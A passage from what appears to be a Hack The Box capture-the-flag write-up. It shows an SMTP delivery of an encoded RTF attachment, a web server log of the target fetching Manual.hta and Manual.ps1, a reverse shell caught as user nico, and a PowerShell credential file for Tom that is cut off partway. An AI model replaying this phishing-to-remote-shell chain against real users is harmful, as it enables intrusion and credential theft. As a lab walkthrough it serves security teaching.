 ```bash
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAKMDEwNTAwMDAwMDAwMDAwMH0K
 -> e1xyZXN1bHQge1xydGxjaFxmY3MxIFxhZjMxNTA3IFxsdHJjaFxmY3MwIFxpbnNyc2lkMTk3OTMy
 -> NCB9fX19CntcKlxkYXRhc3RvcmUgfQp9Cg==
 ->
 -> ------=_MIME_BOUNDARY_000_30115--
 ->
 ->
 -> .
<-  250 Queued (12.156 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Web activity from `nico` downloading the RTF and HTA files:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.1.151 - - [11/Nov/2021 17:48:59] "GET /Manual.hta HTTP/1.1" 200 -
10.129.1.151 - - [11/Nov/2021 17:49:01] "GET /Manual.ps1 HTTP/1.1" 200 -
```

Catch the reverse shell as `nico` and grab the user flag.

```bash
listening on [any] 443 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.1.151] 49395
PS C:\users\nico\desktop> dir c:\users\nico\desktop\user.txt


    Directory: C:\users\nico\desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--        28/10/2017     00:40         32 user.txt
```

---

## `tom`'s Credentials

There's an interesting XML file on `nico`'s desktop.

```powershell
PS C:\users\nico\desktop> cat cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
```